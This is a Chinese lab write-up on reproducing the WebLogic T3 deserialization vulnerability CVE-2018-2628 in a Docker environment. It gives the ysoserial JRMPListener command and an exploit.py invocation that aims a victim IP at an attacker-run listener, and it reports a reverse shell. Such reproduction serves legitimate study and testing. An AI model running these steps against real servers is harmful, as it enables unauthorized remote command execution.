




# Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16275606.html`](https://www.cnblogs.com/NoCirc1e/p/16275606.html)

Oracle 2018 年 4 月补丁中，修复了 Weblogic Server WLS Core Components 中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过 t3 协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

*   [`www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html`](http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html)
*   [`mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA`](http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA)
*   [`github.com/tdy218/ysoserial-cve-2018-2628`](https://github.com/tdy218/ysoserial-cve-2018-2628)

## 影响版本

*   Oracle [WebLogic](https://so.csdn.net/so/search?q=WebLogic&spm=1001.2101.3001.7020) Server10.3.6.0
*   Oracle WebLogic Server12.2.1.2
*   Oracle WebLogic Server12.2.1.3
*   Oracle WebLogic Server12.1.3.0

## 漏洞环境

执行如下命令启动 Weblogic 10.3.6.0：

```
docker-compose up -d
```



等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境，出现登录界面就是搭建完成了。



## 漏洞复现

首先下载 ysoserial，并启动一个 JRMP Server：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是 JRMP Server 监听的端口。



然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标 Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标 weblogic 的 IP 和端口，`[path to ysoserial]`是本地 ysoserial 的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动 JRMP Server 的 IP 地址和端口。`[JRMPClient]`是执行 JRMPClient 的类，可选的值是`JRMPClient`或`JRMPClient2`。


exploit.py 执行完成后，可见反弹 Shell 成功

